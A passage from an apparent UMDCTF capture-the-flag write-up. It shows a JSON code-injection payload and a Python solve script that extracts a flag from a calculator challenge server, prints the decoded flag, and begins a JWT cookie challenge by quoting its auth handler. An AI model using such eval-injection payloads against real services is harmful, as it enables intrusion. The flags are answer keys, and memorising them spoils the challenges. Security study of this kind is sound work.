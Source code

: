 ```json
{
    "f": "int.from_bytes(flag_enc[0].encode(), 'big')"
}
```

Automate it

```py:solve.py
from pwn import *
import requests

url = 'https://calculator-beu79.ondigitalocean.app'

# get flag
flag = ''
logger = log.progress('Flag')
for cur_flag_idx in range(1000):
    logger.status(flag)

    res = requests.post(url=url+'/calc', json={'f':f"int.from_bytes(flag_enc[{str(cur_flag_idx)}].encode(), 'big')"})
    flag += chr(int(res.text.split('"')[3]))

logger.success(flag)
```

And get the encrypted flag `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`. The flag is found applying a ROT8

🏁 __UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}__{:.spoiler}


## Customer Support

> _Contact Devils customer supoprt and see what they have to offer._<br>
> _Attachments: Customer\_Support.zip_<br>
> _Hint: Refer to How do JSON Web Tokens work? on https://jwt.io/introduction_

We are given the source code of a sort of Customer Support frontdesk application. The application is divided in two different services: 
1. Microservice, served locally on port 3000 
2. The main application, served publicly

Reading the source of _/pages/api/auth.ts_ we can see that in order to get the flag (stored inside an environment variable) we need to send a 
specific _Authorization_ cookie.

```js:pages/api/auth.ts
import type { NextApiRequest, NextApiResponse } from 'next';
import { getCookie } from 'cookies-next';
const dotenv = require('dotenv');
dotenv.config();

type Data = {
    status: string
    body: string
}

export default async function handler(
    req: NextApiRequest,
    res: NextApiResponse<Data>
) {
    if (req.method === 'GET') {
        const tok = getCookie('Authorization', {req, res});
        return res.status(200).json({ status: 'success', body: `${tok && tok == process.env.TOKEN ? process.env.FLAG : ''}`});
    }
```